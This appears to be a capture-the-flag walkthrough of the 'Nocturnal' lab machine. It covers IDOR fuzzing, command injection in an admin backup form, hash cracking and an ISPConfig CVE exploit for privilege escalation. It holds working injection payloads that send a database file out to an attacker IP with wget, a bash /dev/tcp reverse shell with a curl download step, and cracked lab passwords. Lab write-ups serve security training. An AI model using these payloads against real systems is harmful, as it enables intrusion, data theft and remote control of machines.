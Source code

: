 # 🌙 Nocturnal

## 📝 Overview

The machine involves exploiting an IDOR (Insecure Direct Object Reference) to access user files, 
leveraging a vulnerable admin panel to download sensitive database files, 
cracking password hashes, and escalating privileges via an outdated ISPConfig installation.

## 🔍 Enumeration

Start with **Nmap** to identify open ports and services:
```sh
nmap -p- -T4 10.10.11.64
nmap -sV -sC -p 22,80 10.10.11.64
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
nikto -h http://nocturnal.htb
gobuster dir -u http://nocturnal.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

We can register on the website and reach dashboard.php which allows file uploads.  
File upload restrictions:
```
Invalid file type." PDF, doc, docx, xls, xlsx, and odt are allowed
```

## 🕵️‍♂️ IDOR / Fuzzing

IDOR / Fuzzing: Fuzz usernames to find valid accounts:
```sh
http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
ffuf -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -b "PHPSESSID=erbpv8q9e6n8p65j7dk8lsgpde" -fr "User not found"
```

Found Amanda user and downloaded her files → found password:
```
arHkG7HAI68X8s1J
```

Use the password to access the admin panel.  
Test injection payloads with Burp Suite:
```sh
password=1%0awhoami>text.txt%0a&backup=
# Discovered the nocturnal_database.db file
password=''>/dev/null%0als%09/var/www/nocturnal_database&backup=
```

## 🛡️ Admin Panel Analysis

Admin.php sanitization function:
```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
...
```

After some search we find nocturnal_database.db:
```sh
password=''>/dev/null%0awget%09-X%09POST%09http://10.10.14.124:8000/upload%09-F%09'files=@/var/www/nocturnal_database/nocturnal_database.db'#&backup=

# or we can echo "bash -c 'bash -i >& /dev/tcp/10.10.14.124/4444 0>&1'" > shell
# password=test%0acurl%09http://10.10.14.124/shell%09-o%09/tmp/shell&backup=
# password=test%0abash%09/tmp/shell&backup=
```

## 🔑 Extracting Passwords

Extracted hashes from the database:
```sh
sqlite3 nocturnal_database.db
.tables
select * from users;
echo -n "tobias:55c82b1ccd55ab219b3b109b07d5061d" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# slowmotionapocalypse
```

## 🖥️ SSH Access

SSH into the machine with tobias:
```sh
id
whoami
groups
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000
curl http://10.10.14.116:8000/linpeas.sh -o linpeas.sh
```

Found service running on port 8080:
```sh
ss -tulpn
```

## 🧗 Privilege Escalation via ISPConfig

Tunneling via SSH to access ISPConfig:
```sh
ssh -L 8080:127.0.0.1:8080 tobias@nocturnal.htb
http://localhost:8080/
```

Discovered version: ISPConfig 3.2.10p1  
Found CVE-2023-46818 and [exploited](https://github.com/ajdumanhug/CVE-2023-46818):
```sh
tobias@nocturnal:~$ python3 script.py http://localhost:8080 admin slowmotionapocalypse
```